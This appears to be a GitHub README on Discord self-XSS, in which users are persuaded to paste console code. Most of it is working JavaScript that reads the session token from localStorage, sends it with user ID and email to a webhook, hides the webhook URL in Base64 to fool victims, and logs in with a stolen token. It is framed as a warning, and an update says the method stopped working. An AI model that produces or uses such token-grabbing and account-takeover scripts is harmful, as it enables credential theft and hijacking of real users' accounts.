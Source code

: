# Discord Self-XSS
Although Discord repeatedly prints massive warnings on the console, telling people about the potential dangers that pasted unknown code snippets could lead to, most users are unwary, and casually run scripts without understanding what they do.

By convincing a user to paste just a couple lines of code, an attacker could access `localStorage` to copy the Session Token without the user even noticing, using something like the following script:

```JS
/* Without any discernible change, an `iframe`
is created in order to access `localStorage`
through its `contentWindow` property. The users's
token is then copied and `slice` is used to remove
its quotation marks (for aesthetic purposes) */
document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token.slice(1,-1);
```

This script could be quickly adapted to act as a warning for uncautious users, the simplest way being to *literally* `alert()` them, like [this](/alert-warning.js):
```JS
let token = document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token.slice(1,-1);
alert(`Your Discord token is:\n${token}\n\nNever paste any code you don't understand in the console!`);
```

It could just as easily be modified into something malicious, as in this [example](/simple-webhook.js):
```JS
let token = document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token.slice(1,-1);
  
/* With a simple HTTP Request, your
token could be sent to the attacker
using a Discord Webhook. This does
not cause a CORS error as webhooks
use the same domain as the Discord
website, and are thus treated like
any other request */
fetch("https://discord.com/api/webhooks/123456789012345678/abcdefghijklmnopqrstuvwxyzABCDEFGHIJLKLMNOPQRSTUVWXYZ1234567890abcde", {
  method: "POST",
  headers: {
    "Content-Type": "application/json"
  },
  body: JSON.stringify({
    content: token,
    embeds: null
  })
});
```

Even with a modification as simple as encoding all mentions of a "token" and the Webhook URL *(which could catch their eye)* to Base64 and decoding them using `atob()` could suffice to trick a naive user, as done in this snippet:
```JS
fetch(atob("aHR0cHM6Ly9kaXNjb3JkLmNvbS9hcGkvd2ViaG9va3MvMTIzNDU2Nzg5MDEyMzQ1Njc4L2FiY2RlZmdoaWprbG1ub3BxcnN0dXZ3eHl6QUJDREVGR0hJSkxLTE1OT1BRUlNUVVZXWFlaMTIzNDU2Nzg5MGFiY2Rl"),{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({"content":document.body.appendChild(document.createElement("iframe")).contentWindow[atob("bG9jYWxTdG9yYWdl")][atob("dG9rZW4=")].slice(1,-1),"embeds":null})});
```

Any attempt at obfuscation could be suspicious to some users, but the great majority wouldn't bat an eye before pasting a code-block, even with escaped characters, generated by something like obfuscator.io.

While accessing `localStorage`, an attacker might as well make use of other cached information *(although i just realized all one would really need is the token)* and create a nice embed for his webhook, as I did with the following [script](/embed-webhook.js):
```JS
let localStorage = document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage;
fetch("YOUR_WEBHOOK_URL", {
  method: "POST",
  headers: {
    "Content-Type": "application/json"
  },
  body: JSON.stringify({
    content: null,
    embeds: [{
      title: "Successfully Grabbed Token!",
      color: 2067276,
      fields: [{
        name: "User",
        value: `<@!${localStorage.user_id_cache.slice(1,-1)}>`,
        inline: true
      }, {
        name: "Email",
        value: localStorage.email_cache.slice(1,-1),
        inline: true
      }, {
        name: "Token",
        value: localStorage.token.slice(1, -1).replaceAll("-", "-\n")
      }],
      footer: {
        text: "Hacker Pepe v0.0.0",
        icon_url: "https://imgur.com/5Ri5eok.png"
      }
    }],
    username: "Hacker Pepe",
    avatar_url: "https://imgur.com/5Ri5eok.png"
  })
});
```

Regardless of whether or not an attacker sends himself another user's token using a great embed such as the one produced by the above script, allowing someone else access to `localStorage` can let them extract a lot of information about the user, and should never be done.

![Example Embed](/embed.png)

And just like that, an internet stranger could know your token. This is concerning, as by simply opening a new [incognito] tab, opening Discord, and pasting this almost identical [script](/token-login.js) *(ironic...)*, they could set their token to yours and access your account.
```JS
document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token=`"YOUR_TOKEN"`;
location.reload();
```

So please never paste any script into your console unless you understand what it does and fully trust the person who sent it to you.

### Update
Just a couple of hours after publishing this repository, the method used by these scripts stopped working, as the `token` value in `localStorage` is no longer persistent *(which is probably a good idea, and leads me to think that this may have simply been a bug)*, and gets removed rather quickly as the page is loading. Although the timing was certainly a coincidence *(I wish I had that much clout)*, I'm glad this was done, as this change could greatly reduce the likelihood of a Self-XSS attack working on Discord. I'll make sure to update the repo if I can figure out some other simple ways to grab a user's token without requiring perfect timing, and welcome anyone to open a Pull Request if you figure out a way to do so.

